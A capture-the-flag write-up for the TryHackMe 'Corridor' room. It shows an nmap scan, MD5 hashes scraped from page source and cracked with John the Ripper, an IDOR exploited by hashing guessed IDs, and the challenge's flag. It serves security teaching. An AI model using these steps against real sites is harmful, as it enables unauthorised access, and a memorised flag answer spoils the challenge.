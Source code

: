 # [Corridor](https://tryhackme.com/room/corridor)

> Can you escape the Corridor?

## Scanning

scan the target

```
nmap -sS -sV 10.10.225.145
```

![image](https://user-images.githubusercontent.com/90561566/208304304-ebb780f4-5fd9-4ad6-b3d7-8b06d5bf51c5.png)

## HTTP

go to the webpage, we can see a corridor with a lot of door can open

![image](https://user-images.githubusercontent.com/90561566/208304440-ffdb757e-26fe-486a-ae69-b9309b6b08de.png)

when view source, i can see a lot of hash value on each door

![image](https://user-images.githubusercontent.com/90561566/208304578-22aff0f2-7cd0-45ae-b961-e26e0db2b4db.png)

## Enumeration

now, i will colect all these hashes to further research

```
curl http://10.10.225.145 | grep 'alt' | cut -d '"' -f4 > hash.txt
```

![image](https://user-images.githubusercontent.com/90561566/208305766-3116f552-71e3-4687-8194-e0c5daf30d35.png)

## Cracking

crack the hash with john the ripper

```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![image](https://user-images.githubusercontent.com/90561566/208305948-476b7b4d-d722-4aaa-92f3-b56b09d10610.png)

Clearly, all hashed URL endpoints are numbers from 1 to 13.

## Exploitation

let's think about IDOR vulnerability, i will change the hashed URL to over the zone, maybe 14 or 0

```
echo -n 14 | md5sum
echo -n 0 | md5sum
```

![image](https://user-images.githubusercontent.com/90561566/208306173-7b83d179-445a-46ed-a4d6-dac6fb7f7026.png)

nothing at room 14 but there is a flag at room 0

![image](https://user-images.githubusercontent.com/90561566/208306218-0f9d7e81-34a7-4b37-8c83-73ca1c21f34c.png)

Here you are

| Flag | Answer |
| --- | --- |
| flag | flag{2477ef02448ad9156661ac40a6b8862e} |
